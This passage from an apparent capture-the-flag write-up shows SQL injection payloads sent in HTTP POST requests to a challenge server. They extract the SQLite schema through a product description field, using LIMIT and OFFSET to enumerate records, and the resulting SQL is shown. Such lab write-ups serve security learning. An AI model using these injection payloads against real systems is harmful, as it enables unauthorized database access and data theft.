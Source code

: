 **Payload:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master));--+-
```

**Final executed SQL statement:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master));-- -');
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132812.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132834.png)

Nice... Uh wait a minute... Since the product display page only shows 1 record per product, we only got 1 record in the database structure value.

To solve this issue, we can use the **`LIMIT` and `OFFSET` clause**, where we want to `LIMIT` 1 record only, and the get position of the record via `OFFSET`.

**Payloads:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master+LIMIT+1+OFFSET+0));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master+LIMIT+1+OFFSET+1));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master+LIMIT+1+OFFSET+2));--+-
```

**Final executed SQL statements:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master LIMIT 1 OFFSET 0));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master LIMIT 1 OFFSET 1));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master LIMIT 1 OFFSET 2));-- -');
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527133449.png)
